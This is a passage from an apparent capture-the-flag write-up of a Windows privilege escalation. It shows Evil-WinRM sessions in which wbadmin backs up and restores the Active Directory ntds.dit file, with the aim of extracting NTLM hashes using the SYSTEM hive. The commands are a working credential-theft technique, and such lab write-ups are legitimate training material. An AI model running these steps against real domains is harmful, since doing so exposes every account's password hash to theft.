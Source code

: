 ## PrivEsc Method #1 - wbadmin

For the first method, we will use **wbadmin** a Windows command line tool which enables us back up and restore operating system, volumes, files, folders, and applications.

It is not recommended to Backup and Restore the file in the same disk, so first we will first create a shadow copy of disk and backup the **ntds.dit** from the **c:\windows\ntds\ntds.dit** and store it inside SMB share **C$**

We could also achieve this by hosting our own SMB share from our machine but I preferred using SMB share **C$** of the host itself, since we don’t have an interactive session we’ll be using **-quiet** flag which wont ask us for user input to start the backup operation.

### NTDS.dit
```console
*Evil-WinRM* PS C:\Users\svc_backup\Documents> cd \\10.10.10.192\C$\Windows\Temp
*Evil-WinRM* PS Microsoft.PowerShell.Core\FileSystem::\\10.10.10.192\C$\Windows\Temp> mkdir CFX
*Evil-WinRM* PS Microsoft.PowerShell.Core\FileSystem::\\10.10.10.192\C$\Windows\Temp\CFX> wbadmin start backup -backuptarget:\\10.10.10.192\C$\Windows\Temp\CFX\ -include:c:\Windows\ntds\ntds
.dit -quiet
```
Now that we have obtained **WindowsImageBackup** of **NTDS.dit** file inside the SMB share, we’ll recovery the file inside our directory **C:\Users\svc_backup\Documents**

For recovering the backup we need the backup version:
```console
*Evil-WinRM* PS C:\Users\svc_backup\Documents> wbadmin get versions
wbadmin 1.0 - Backup command-line tool
(C) Copyright Microsoft Corporation. All rights reserved.

Backup time: 10/5/2020 3:27 PM
Backup location: Network Share labeled \\10.10.10.192\C$\Windows\Temp\CFX\
Version identifier: 10/05/2020-22:27
Can recover: Volume(s), File(s)

*Evil-WinRM* PS C:\Users\svc_backup\Documents> wbadmin start recovery -version:10/05/2020-22:27 -itemtype:file -items:c:\windows\ntds\ntds.dit -recoverytarget:c:\Users\svc_backup\Documents -notrestoreacl -quiet

*Evil-WinRM* PS C:\Users\svc_backup\Documents> ls


    Directory: C:\Users\svc_backup\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         10/5/2020  3:27 PM       18874368 ntds.dit
```
### SYSTEM hive
To extract the NTLM hashes from ntds.dit file, we’ll be needing SYSTEM hive file which contains the System boot key essential to decrypt the NTDS.dit.
